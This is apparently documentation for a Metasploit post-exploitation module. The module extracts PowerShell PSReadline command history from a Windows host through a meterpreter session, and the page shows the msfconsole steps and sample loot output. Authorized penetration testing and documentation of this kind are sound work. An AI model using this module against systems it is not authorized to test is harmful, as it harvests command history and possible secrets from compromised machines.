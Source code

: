 ## Vulnerable Application

  This post-exploitation module will extract PowerShell history.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/psreadline_history`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted PowerShell history in the loot files

## Options

  - **SESSION** - The session to run the module on.

## Example Scenario

  **Using the module with a version earlier than PowerShell 5.0**

  In this scenario the module won't be able to work, as in earlier versions of PowerShell, the history of the commands in the current session is not being saved after it is closed.

  **Using the module with PowerShell 5.0+**

  In this scenario the module will try to extract the history file and save it in a loot file.

  ```
  msf exploit(handler) > use post/windows/gather/psreadline_history 
  msf post(psreadline_history) > set SESSION 1
  SESSION => 1
  msf post(psreadline_history) > run

  [*] Writing history to loot...
  [*] PSReadline history file of user IEUser saved to /home/user/.msf4/loot/20181223050921_default_10.0.2.15_ps.history_688257.txt
  [*] Post module execution completed
  ```

  The extracted history data would look like this:

  ```
  cd
  cls
  1+5
  Get-Help -Name Get-*
  Set-ExecutionPolicy Unrestricted
  Get-Service | Export-CSV c:\service.csv
  ```
